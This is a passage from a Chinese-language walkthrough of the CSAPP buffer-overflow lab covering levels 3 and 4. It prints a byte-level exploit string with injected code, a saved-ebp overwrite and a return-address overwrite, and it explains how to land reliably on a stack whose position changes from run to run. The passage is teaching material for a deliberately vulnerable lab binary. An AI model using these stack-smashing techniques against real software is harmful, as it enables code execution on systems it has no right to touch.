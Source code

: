 由于 `PUSH` 指令存放的地址取决于 `ebp`，所以在设计字符串时不能将存放 `ebp` 的空间覆写为其他值：

```
/* my function 17 Bytes */
68 50 8e 04 08 /* push $0x8048e50 */
68 b0 2f 68 55 /* push $0x55682fb0 */
b8 97 1b a8 23 /* mov $0x23a81b97,%eax */
c9             /* leave */
c3             /* ret */

/* spaces 23 Bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00

/* set ebp 4 Bytes */
80 2f 68 55

/* return address to my function 4 Bytes */
58 2f 68 55
```

还原 `ebp` 的方法还有另外一种，见 `level4`。

运行程序，成功通过：

![][level3-2]

## level4 Nitroglycerin

本题与 `level3` 类似，区别在于会执行 5 次，而且每次调用的栈帧位置都会发生变化，同时要求只使用一份字符串来实现功能。

本题的调用路径发生了一些变化：

```mermaid
graph LR;
main(main) --> launcher(launcher);
launcher --> launch(launch);
launch --> testn(testn);
testn --> getbufn(getbufn);
getbufn --> Gets(Gets);
```

其中 `buffer` 的空间扩大成了 512 个字节，比原先多了 480 个字节。

由于只能使用一份字符串，所以每次返回至的位置是相同的，但是每次栈帧位置都会发生变化，所以我们要保证返回至的位置应当是无效代码，同时它应当在我们需要执行的代码的前面（更小的地址）。

由于栈帧不固定，所以 `ebp` 并非确定的，需要通过 `esp` 来确定其值，首先观察 `testn` 的反汇编代码：

```x86asm
08048cce <testn>:
 8048cce:   55                      push   %ebp
 8048ccf:   89 e5                   mov    %esp,%ebp
 8048cd1:   53                      push   %ebx
 8048cd2:   83 ec 24                sub    $0x24,%esp
```


[level0]: http://static.wilfredshen.cn/images/CSAPP-buflab/level0.png
[level1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level1.png
[level2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level2.png
[level3-1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-1.png
[level3-2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-2.png
[level4]: http://static.wilfredshen.cn/images/CSAPP-buflab/level4.png